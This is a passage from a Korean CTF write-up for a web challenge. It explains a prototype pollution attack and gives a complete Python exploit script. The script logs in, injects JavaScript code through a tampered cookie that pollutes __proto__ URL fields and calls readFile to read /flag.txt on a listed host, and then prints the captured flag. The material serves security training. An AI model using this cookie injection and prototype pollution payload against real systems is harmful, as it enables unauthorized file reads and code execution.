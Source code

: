 즉, `href`, `protocol` 값 존재 / `auth`, `path` === `undefined` / `hostname`값이  `''`이고 `pathname`이 `/app/flag`가 되도록 Prototype Pollution 취약점을 통해 변조해주면 된다.            
                        
`{ href: 'a', protocol: 'file:', hostname: '', pathname: '/flag.txt' }` 로 설정해주었다.     
          
## Exploit Code             
      
```python
import requests, json
url = "http://3.34.190.217:24916"
# url = "http://localhost:24916"
# hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}

s = requests.session() 
r = requests.post(
        f"{url}/register",
        json={
            "username": "guest",
            "password": "guest"
        })
print(r.text)

r = s.post(
        f"{url}/login",
        json={
            "username": "guest",
            "password": "guest"
        })
cookies = r.cookies.get_dict()
passwd, uid = cookies["passwd"], cookies["uid"]
print(r.text)
print(cookies)

cookies["uid"] = "0b11"
cookies["data"] = """1+1])%3Ba={}%3Ba.__proto__.href='a'%3Ba.__proto__.protocol="file:"%3Ba.__proto__.hostname=""%3Ba.__proto__.pathname="/flag.txt"%3BreadFile({})%3b//"""
r = requests.get(
        f"{url}/checkout",
        cookies=cookies)
print(r.text)
```
       
### FLAG     
hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}     

